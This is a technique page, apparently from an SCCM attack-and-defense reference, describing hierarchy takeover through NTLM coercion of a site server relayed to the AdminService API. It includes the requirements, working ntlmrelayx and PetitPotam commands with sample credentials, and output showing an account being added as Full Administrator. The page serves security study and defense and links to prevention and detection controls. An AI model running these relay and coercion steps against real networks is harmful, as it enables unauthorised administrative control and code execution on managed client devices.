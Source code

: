 # TAKEOVER-5
## Description
Hierarchy Takeover via NTLM Coercion and Relay from Site Server to AdminService

## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-5.1: Primary site server 
    - TAKEOVER-5.2: Passive site server
    - TAKEOVER-5.3: CAS site server

- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Connectivity from the relay server to HTTPS (TCP/443) on the relay target hosting the SMS Provider role


## Summary

The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations.  The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.

The SMS Provider also provides access to the site database via the administration service (adminservice) REST API and uses Microsoft Negotiate for authentication. In default configurations, the adminservice is vulnerable to NTLM relay attacks. 

## Impact

This technique may allow an attacker to relay a site server machine account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs

- [PREVENT-9: Enforce MFA for SMS Provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description.md)
- [DETECT-4: Monitor SMS Admins group membership](../../../defense-techniques/DETECT/DETECT-4/detect-4_description.md)

## Subtechniques
- TAKEOVER-5.1: NTLM relay primary site server SMB to AdminService on remote SMS Provider
- TAKEOVER-5.2: NTLM relay passive site server SMB to AdminService on remote SMS Provider
- TAKEOVER-5.3: NTLM relay CAS site server SMB to AdminService on remote SMS Provider


## Examples

1. Use `SCCMHunter` to  profile SCCM infrastructure.

```
[02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
[02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                       +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                       | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
```

2. On the attacker relay server, start `ntlmrelayx`, targeting the URL of the AdminService API on the remote SMS Provider identified in the previous step, and provide a target account to add as a Full Administrator.

```
└─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\specter" --objectsid <USER SID> -smb2support -t https://SMS_PROVIDER_URL_OR_IP/AdminService/wmi/SMS_Admin
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

```


3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:


```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

Trying pipe lsarpc
[-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```
After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the AdminService on the SMS Provider to add a Full Administrator:

```
┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]


[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
[*] Exiting standard auth flow to add SCCM admin...
[*] Authenticating against https://provider.internal.lab as LAB/SCCM$
[*] Skipping user SCCM$ since attack was already performed
[*] Server returned code 201, attack successful

```


4. Confirm that the account now has the `Full Administrator` role by querying WMI on an SMS Provider.

    With `sccmhunter`:
    ```
    $ python3 sccmhunter.py  admin -u specter -p <PASSWORD> -ip SITE-SMS          

    [14:16:54] INFO     [!] Enter help for extra shell commands                                                                                                                                              
    () (C:\) >> show_admins
    [14:17:11] INFO     Tasked SCCM to list current SMS Admins.                                                                                                                                              
    [14:17:12] INFO     Current Full Admin Users:
    [14:17:13] INFO     lab\Administrator 
    [14:17:13] INFO     lab\specter 
    ```

## References
- Garrett Foster, Site Takeover via SCCM’s AdminService API, https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf
- Microsoft, Plan for the SMS Provider, https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider
- Microsoft, What is the administration service in Configuration Manager?, https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview